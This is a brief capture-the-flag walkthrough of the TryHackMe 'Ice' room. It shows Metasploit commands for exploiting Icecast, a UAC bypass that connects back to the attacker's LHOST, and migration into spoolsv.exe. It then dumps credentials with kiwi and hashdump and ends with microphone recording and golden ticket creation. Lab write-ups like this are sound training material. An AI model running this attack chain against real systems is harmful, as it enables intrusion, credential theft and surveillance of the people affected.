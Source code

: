 # Ice

**Room Link:** [https://tryhackme.com/room/ice](https://tryhackme.com/room/ice)



## Recon

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (73).png" alt=""><figcaption></figcaption></figure>

## Gain Access

**Kali**

```
msfconsole
```

**Metasploit**

```
search icecast
use 0
set RHOSTS $VICTIM
run
```

<figure><img src="../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

## Escalate



<figure><img src="../../.gitbook/assets/image (130).png" alt=""><figcaption></figcaption></figure>

**Meterpreter**

```
run post/multi/recon/local_exploit_suggester
background
```

<figure><img src="../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

**Metasploit**

```
use exploit/windows/local/bypassuac_eventvwr
set SESSIONS 1
set LHOST $KALI
run
```

We are still user dark but have a lot of privilege's now

<figure><img src="../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

## Looting

**Meterpreter**

```
ps
```

<figure><img src="../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

**Meterpreter**

```
ps
migrate -N spoolsv.exe
```

**Meterpreter**

```
load kiwi
creds_all
```

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

**Meterpreter**

```
hashdump
```

<figure><img src="../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

**Meterpreter**

```
screenshare
record_mic
golden_ticket_create
```





















